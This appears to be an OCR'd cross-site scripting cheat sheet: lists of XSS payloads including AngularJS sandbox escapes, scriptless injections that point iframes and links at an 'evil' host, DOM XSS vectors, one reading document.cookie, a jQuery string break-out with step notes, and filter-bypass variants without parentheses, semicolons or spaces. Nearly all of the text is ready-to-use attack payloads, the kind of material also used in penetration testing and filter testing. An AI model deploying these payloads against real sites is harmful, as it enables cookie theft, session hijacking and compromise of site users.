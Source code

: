 @domain.com">user+'-alert`1`-'@domain.com
--------------------------------------------------------------------AngularJS: 




toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,11 4,116,40,49,41)
--------------------------------------------------------------------
Scriptless:
<link rel=icon href="//evil?
<iframe src="//evil?
<iframe src="//evil?
<input type=hidden type=image src="//evil?
--------------------------------------------------------------------
Unclosed Tags:
<svg onload=alert(1)//
--------------------------------------------------------------------
DOM XSS:
“><svg onload=alert(1)>
<img src=1 onerror=alert(1)>
javascript:alert(document.cookie)
\“-alert(1)}//
<><img src=1 onerror=alert(1)>
--------------------------------------------------------------------
Another case:
param=abc`;return+false});});alert`xss`;</script>
abc`; Finish the string
return+false}); Finish the jQuery click function
}); Finish the jQuery ready function
alert`xss`; Here we can execute our code
</script> This closes the script tag to prevent JavaScript parsing errors
-------------------------------------------------------------------- 


## Restrictions Bypass
--------------------------------------------------------------------
No parentheses:
<script>onerror=alert;throw 1</script>
<script>throw onerror=eval,'=alert\x281\x29'</script>
<script>'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}</script>
<script>location='javascript:alert\x281\x29'</script>
<script>alert`1`</script>
<script>new Function`X${document.location.hash.substr`1`}`</script>
--------------------------------------------------------------------
No parentheses and no semicolons:
<script>{onerror=alert}throw 1</script>
<script>throw onerror=alert,1</script>
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>
--------------------------------------------------------------------
No parentheses and no spaces:
<script>Function`X${document.location.hash.substr`1`}```</script>
--------------------------------------------------------------------
Angle brackets HTML encoded (in an attribute):
“onmouseover=“alert(1)
‘-alert(1)-’
--------------------------------------------------------------------
If quote is escaped:
‘}alert(1);{‘
‘}alert(1)%0A{‘